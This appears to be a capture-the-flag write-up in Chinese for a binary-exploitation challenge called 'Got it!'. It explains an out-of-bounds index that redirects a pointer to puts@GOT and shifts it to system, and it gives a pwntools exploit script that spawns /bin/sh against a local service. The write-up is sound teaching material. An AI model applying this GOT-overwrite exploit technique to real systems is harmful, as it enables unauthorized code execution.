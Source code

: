 ## Got it!

> You GOT it?
>
> - What is `Partial RELRO`?
>
> 
>
> hint
>
> - libc 里函数之间的偏移的固定的，可以通过一个已知函数加上一个偏移来获得任意一个函数的地址

预期难度：Normal

索引越界，可以改到 now_save 指针，修改其指向 puts@GOT，然后通过 add 加上`system - puts`即可拿到 system 函数。然后通过在 saves 数组开始位置布置`/bin/sh\x00`来 getshell



**exp**

```python
#! /usr/bin/env python3.8
from pwn import *
from ctools import *

context(os="linux", arch="amd64")
TMUX_TERMINAL()
# context.log_level = "debug"

elf_path = './pwn'
libc_path = './libc.so.6'

init_elf_with_libc(elf_path, libc_path)
DEBUG = lambda script='', load=True: mydebug(io, gdbscript=script, load_symbol=load)

conn_context(host='127.0.0.1', port=9999, level=REMOTE, elf=elf_path)

elf = ELF(elf_path)
libc = ELF(libc_path, checksec=False)
io = conn()
    
def exp():
    def add(num):
        io.sendlineafter(b'> ', b'1')
        io.sendlineafter(b'Operand', str(num).encode())
    def sub(num):
        io.sendlineafter(b'> ', b'2')
        io.sendlineafter(b'Operand', str(num).encode())
        
    io.sendlineafter(b'3. Exit', b'1')
    io.sendlineafter(b'use?', b'0')
    add(u64(b'/bin/sh\x00'))
    io.sendlineafter(b'> ', b'5')

    io.sendlineafter(b'3. Exit', b'1')
    io.sendlineafter(b'use?', b'16')

    sub(0x100)
    add(libc.symbols['system'] - libc.symbols['puts'])

    # DEBUG()
    io.sendline(b'5')
    io.sendline(b'3')
    
    pass
```